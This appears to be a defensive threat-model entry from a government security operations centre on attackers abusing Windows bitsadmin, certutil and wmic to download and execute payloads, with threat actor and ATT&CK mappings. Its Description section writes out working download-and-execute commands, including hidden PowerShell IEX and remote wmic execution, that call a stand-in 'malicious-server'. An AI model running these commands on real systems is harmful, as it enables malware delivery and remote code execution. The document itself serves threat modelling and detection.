

# Download and Execute Payloads with Windows Utilities

## Metadata

- **UUID**: `765be5d9-4f79-4e3d-b894-fa428f285ab5`
- **Schema**: `threat::1.0`
- **Version**: `1`
- **Created**: `2024-11-05`
- **Modified**: `2024-11-05`
- **TLP**: clear (`TLP:CLEAR`)
- **Organisation**: EC DIGIT CSOC (`56b0a0f0-b0bc-47d9-bb46-02f80ae2065a`)

## Description
1. Bitsadmin.exe\
**Description**: A command-line tool to create and manage BITS jobs. 
Threat actors use it to download or upload files stealthily.

Example:

```
bitsadmin.exe /transfer myJob /download /priority high http://malicious-server/payload.exe C:\temp\payload.exe
start C:\temp\payload.exe
```

2. Certutil.exe\
**Description**: A command-line tool for manipulating certificates. 
It can be used to download files and perform Base64 encoding/decoding.

Example:

```
certutil.exe -urlcache -split -f http://malicious-server/payload.exe C:\temp\payload.exe
```

3. Wmic.exe\
**Description**: Windows Management Instrumentation Command-line (WMIC) is 
a command-line utility that provides a powerful interface to the 
Windows Management Instrumentation (WMI) infrastructure. 
It allows administrators to perform management tasks on both local and remote Windows systems

Example:

Execute payload on a local machine:
```
wmic process call create "powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious-server/payload.ps1')\""
```

Execute a remote script:
```
wmic /node:"REMOTE_COMPUTER_NAME" process call create "powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command \"Invoke-WebRequest -Uri 'http://malicious-server/payload.exe' -OutFile 'C:\\Windows\\Temp\\payload.exe'; Start-Process 'C:\\Windows\\Temp\\payload.exe'\""
```

## Criticality
**Medium** - A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence.

## Terrain
> **Adversary has access to a Windows system where native utilities are available 
and can execute commands without restrictions.

Domains: Enterprise
Targets: Workstations, Public-Facing Servers, Laptop, Virtual Machines
Platforms: Windows, PowerShell**

## Threat Assessment
| Dimension | Assessment | Description |
| --- | --- | --- |
| Severity | Significant incident | A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services. |
| Impact | Data Breach; Reputational Damages; Business disruption | - |
| Leverage | Elevation of privilege; Software installation; Information Disclosure; Modify configuration | - |
| Viability | Likely | Probable (probably) - 55-80% |
| Kill Chain | Execution | Techniques that result in execution of attacker-controlled code on a local or remote system. |

## Actors
| Actor | ID | Source | Description |
| --- | --- | --- | --- |
| [[Enterprise] FIN7](https://attack.mitre.org/groups/G0046) | `att&ck::G0046` | ('att&ck',) | [FIN7](https://attack.mitre.org/groups/G0046) is a financially-motivated threat group that has been active since 2013. [FIN7](https://attack.mitre.org/groups/G0046) has primarily targeted the retail, restaurant, hospitality, software, consulting, financial services, medical equipment, cloud services, media, food and beverage, transportation, and utilities industries in the U.S. A portion of [FIN7](https://attack.mitre.org/groups/G0046) was run out of a front company called Combi Security and often used point-of-sale malware for targeting efforts. Since 2020, [FIN7](https://attack.mitre.org/groups/G0046) shifted operations to a big game hunting (BGH) approach including use of [REvil](https://attack.mitre.org/software/S0496) ransomware and their own Ransomware as a Service (RaaS), Darkside. FIN7 may be linked to the [Carbanak](https://attack.mitre.org/groups/G0008) Group, but there appears to be several groups using [Carbanak](https://attack.mitre.org/software/S0030) malware and are therefore tracked separately.(Citation: FireEye FIN7 March 2017)(Citation: FireEye FIN7 April 2017)(Citation: FireEye CARBANAK June 2017)(Citation: FireEye FIN7 Aug 2018)(Citation: CrowdStrike Carbon Spider August 2021)(Citation: Mandiant FIN7 Apr 2022) |
| FIN7 | `misp::00220228-a5a4-4032-a30d-826bb55aa3fb` | ('misp',) | Groups targeting financial organizations or people with significant financial assets. |
| [[Enterprise] Turla](https://attack.mitre.org/groups/G0010) | `att&ck::G0010` | ('att&ck',) | [Turla](https://attack.mitre.org/groups/G0010) is a cyber espionage threat group that has been attributed to Russia's Federal Security Service (FSB).  They have compromised victims in over 50 countries since at least 2004, spanning a range of industries including government, embassies, military, education, research and pharmaceutical companies. [Turla](https://attack.mitre.org/groups/G0010) is known for conducting watering hole and spearphishing campaigns, and leveraging in-house tools and malware, such as [Uroburos](https://attack.mitre.org/software/S0022).(Citation: Kaspersky Turla)(Citation: ESET Gazer Aug 2017)(Citation: CrowdStrike VENOMOUS BEAR)(Citation: ESET Turla Mosquito Jan 2018)(Citation: Joint Cybersecurity Advisory AA23-129A Snake Malware May 2023) |
| Turla | `misp::fa80877c-f509-4daf-8b62-20aba1635f68` | ('misp',) | A 2014 Guardian article described Turla as: 'Dubbed the Turla hackers, initial intelligence had indicated western powers were key targets, but it was later determined embassies for Eastern Bloc nations were of more interest. Embassies in Belgium, Ukraine, China, Jordan, Greece, Kazakhstan, Armenia, Poland, and Germany were all attacked, though researchers from Kaspersky Lab and Symantec could not confirm which countries were the true targets. In one case from May 2012, the office of the prime minister of a former Soviet Union member country was infected, leading to 60 further computers being affected, Symantec researchers said. There were some other victims, including the ministry for health of a Western European country, the ministry for education of a Central American country, a state electricity provider in the Middle East and a medical organisation in the US, according to Symantec. It is believed the group was also responsible for a much - documented 2008 attack on the US Central Command. The attackers - who continue to operate - have ostensibly sought to carry out surveillance on targets and pilfer data, though their use of encryption across their networks has made it difficult to ascertain exactly what the hackers took.Kaspersky Lab, however, picked up a number of the attackers searches through their victims emails, which included terms such as Nato and EU energy dialogue Though attribution is difficult to substantiate, Russia has previously been suspected of carrying out the attacks and Symantecs Gavin O’ Gorman told the Guardian a number of the hackers appeared to be using Russian names and language in their notes for their malicious code. Cyrillic was also seen in use.' |
| [[Enterprise] APT29](https://attack.mitre.org/groups/G0016) | `att&ck::G0016` | ('att&ck',) | [APT29](https://attack.mitre.org/groups/G0016) is threat group that has been attributed to Russia's Foreign Intelligence Service (SVR).(Citation: White House Imposing Costs RU Gov April 2021)(Citation: UK Gov Malign RIS Activity April 2021) They have operated since at least 2008, often targeting government networks in Europe and NATO member countries, research institutes, and think tanks. [APT29](https://attack.mitre.org/groups/G0016) reportedly compromised the Democratic National Committee starting in the summer of 2015.(Citation: F-Secure The Dukes)(Citation: GRIZZLY STEPPE JAR)(Citation: Crowdstrike DNC June 2016)(Citation: UK Gov UK Exposes Russia SolarWinds April 2021)  In April 2021, the US and UK governments attributed the [SolarWinds Compromise](https://attack.mitre.org/campaigns/C0024) to the SVR; public statements included citations to [APT29](https://attack.mitre.org/groups/G0016), Cozy Bear, and The Dukes.(Citation: NSA Joint Advisory SVR SolarWinds April 2021)(Citation: UK NSCS Russia SolarWinds April 2021) Industry reporting also referred to the actors involved in this campaign as UNC2452, NOBELIUM, StellarParticle, Dark Halo, and SolarStorm.(Citation: FireEye SUNBURST Backdoor December 2020)(Citation: MSTIC NOBELIUM Mar 2021)(Citation: CrowdStrike SUNSPOT Implant January 2021)(Citation: Volexity SolarWinds)(Citation: Cybersecurity Advisory SVR TTP May 2021)(Citation: Unit 42 SolarStorm December 2020) |
| UNC2452 | `misp::2ee5ed7a-c4d0-40be-a837-20817474a15b` | ('misp',) | Reporting regarding activity related to the SolarWinds supply chain injection has grown quickly since initial disclosure on 13 December 2020. A significant amount of press reporting has focused on the identification of the actor(s) involved, victim organizations, possible campaign timeline, and potential impact. The US Government and cyber community have also provided detailed information on how the campaign was likely conducted and some of the malware used.  MITRE’s ATT&CK team — with the assistance of contributors — has been mapping techniques used by the actor group, referred to as UNC2452/Dark Halo by FireEye and Volexity respectively, as well as SUNBURST and TEARDROP malware. |

## ATT&CK Techniques
| Technique | Name | Description |
| --- | --- | --- |
| `T1105` | [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105) | Adversaries may transfer tools or other files from an external system into a compromised environment. Tools or files may be copied from an external adversary-controlled system to the victim network through the command and control channel or through alternate protocols such as [ftp](https://attack.mitre.org/software/S0095). Once present, adversaries may also transfer/spread tools between victim devices within a compromised environment (i.e. [Lateral Tool Transfer](https://attack.mitre.org/techniques/T1570)).   On Windows, adversaries may use various utilities to download tools, such as `copy`, `finger`, [certutil](https://attack.mitre.org/software/S0160), and [PowerShell](https://attack.mitre.org/techniques/T1059/001) commands such as <code>IEX(New-Object Net.WebClient).downloadString()</code> and <code>Invoke-WebRequest</code>. On Linux and macOS systems, a variety of utilities also exist, such as `curl`, `scp`, `sftp`, `tftp`, `rsync`, `finger`, and `wget`.(Citation: t1105_lolbas)  A number of these tools, such as `wget`, `curl`, and `scp`, also exist on ESXi. After downloading a file, a threat actor may attempt to verify its integrity by checking its hash value (e.g., via `certutil -hashfile`).(Citation: Google Cloud Threat Intelligence COSCMICENERGY 2023)  Adversaries may also abuse installers and package managers, such as `yum` or `winget`, to download tools to victim hosts. Adversaries have also abused file application features, such as the Windows `search-ms` protocol handler, to deliver malicious files to victims through remote file searches invoked by [User Execution](https://attack.mitre.org/techniques/T1204) (typically after interacting with [Phishing](https://attack.mitre.org/techniques/T1566) lures).(Citation: T1105: Trellix_search-ms)  Files can also be transferred using various [Web Service](https://attack.mitre.org/techniques/T1102)s as well as native or otherwise present tools on the victim system.(Citation: PTSecurity Cobalt Dec 2016) In some cases, adversaries may be able to leverage services that sync between a web-based and an on-premises client, such as Dropbox or OneDrive, to transfer files onto victim systems. For example, by compromising a cloud account and logging into the service's web portal, an adversary may be able to trigger an automatic syncing process that transfers the file onto the victim's machine.(Citation: Dropbox Malware Sync) |
| `T1218` | [System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218) | Adversaries may bypass process and/or signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries. Binaries used in this technique are often Microsoft-signed files, indicating that they have been either downloaded from Microsoft or are already native in the operating system.(Citation: LOLBAS Project) Binaries signed with trusted digital certificates can typically execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files or commands.  Similarly, on Linux systems adversaries may abuse trusted binaries such as <code>split</code> to proxy execution of malicious commands.(Citation: split man page)(Citation: GTFO split) |

## Chaining

### Chaining details
#### implements -> Abuse of Windows Utilities (`atomicity::implements`)
This TVM is implementing the bigger TVM : Abuse of Windows Utilities

- **Target UUID**: `d5039f2c-9fcc-4ba3-ad6a-da8c891ba745`
